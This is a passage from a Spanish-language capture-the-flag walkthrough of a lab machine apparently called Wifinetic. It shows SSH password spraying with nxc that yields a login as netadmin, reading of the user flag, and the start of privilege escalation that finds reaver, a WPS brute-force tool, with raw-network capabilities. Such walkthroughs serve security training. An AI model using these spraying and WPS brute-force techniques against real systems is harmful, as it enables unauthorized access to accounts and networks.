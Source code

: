 Probaremos de validar si estas credenciales sirven para algún usuario de los que disponemos. Verificamos que el usuario `netadmin` sí son válidas para acceder al SSH.

```bash
❯ nxc ssh 10.10.11.247 -u users.txt -p 'VeRyUniUqWiFIPasswrd1!' --continue-on-success
SSH         10.10.11.247    22     10.10.11.247     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
SSH         10.10.11.247    22     10.10.11.247     [-] root:VeRyUniUqWiFIPasswrd1!
SSH         10.10.11.247    22     10.10.11.247     [-] daemon:VeRyUniUqWiFIPasswrd1!
SSH         10.10.11.247    22     10.10.11.247     [-] ftp:VeRyUniUqWiFIPasswrd1!
SSH         10.10.11.247    22     10.10.11.247     [-] network:VeRyUniUqWiFIPasswrd1!
SSH         10.10.11.247    22     10.10.11.247     [-] nobody:VeRyUniUqWiFIPasswrd1!
SSH         10.10.11.247    22     10.10.11.247     [-] ntp:VeRyUniUqWiFIPasswrd1!
SSH         10.10.11.247    22     10.10.11.247     [-] dnsmasq:VeRyUniUqWiFIPasswrd1!
SSH         10.10.11.247    22     10.10.11.247     [-] logd:VeRyUniUqWiFIPasswrd1!
SSH         10.10.11.247    22     10.10.11.247     [-] ubus:VeRyUniUqWiFIPasswrd1!
SSH         10.10.11.247    22     10.10.11.247     [+] netadmin:VeRyUniUqWiFIPasswrd1!  Linux - Shell access!
```

Comprobamos que podemos acceder correctamente al SSH y visualizar la flag de **user.txt**.

```bash
❯ ssh netadmin@10.10.11.247
netadmin@10.10.11.247's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-162-generic x86_64)

...[snip]...

netadmin@wifinetic:~$ cat user.txt
e86c726cda4********************
```

## Privilege Escalation

### Abusing an AP's WPS to get the root password (reaver)

Revisando al usuario `netadmin` el cual disponemos de acceso, comprobamos que dispone de una `capabilitie` de `reaver`.

{% hint style="info" %}
**Reaver** es una herramienta de fuerza bruta diseñada para recuperar la contraseña **WPA/WPA2** de una red Wi-Fi aprovechando vulnerabilidades en la implementación de **WPS (Wi-Fi Protected Setup)**. Es útil cuando el WPS está habilitado en el router, ya que permite a los atacantes explotar este protocolo para acceder a la red inalámbrica sin necesidad de capturar tráfico.
{% endhint %}

```bash
netadmin@wifinetic:~$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/reaver = cap_net_raw+ep

netadmin@wifinetic:~$ which reaver | xargs ls -l
-rwxr-xr-x 1 root root 818808 May 17  2018 /usr/bin/reaver
```
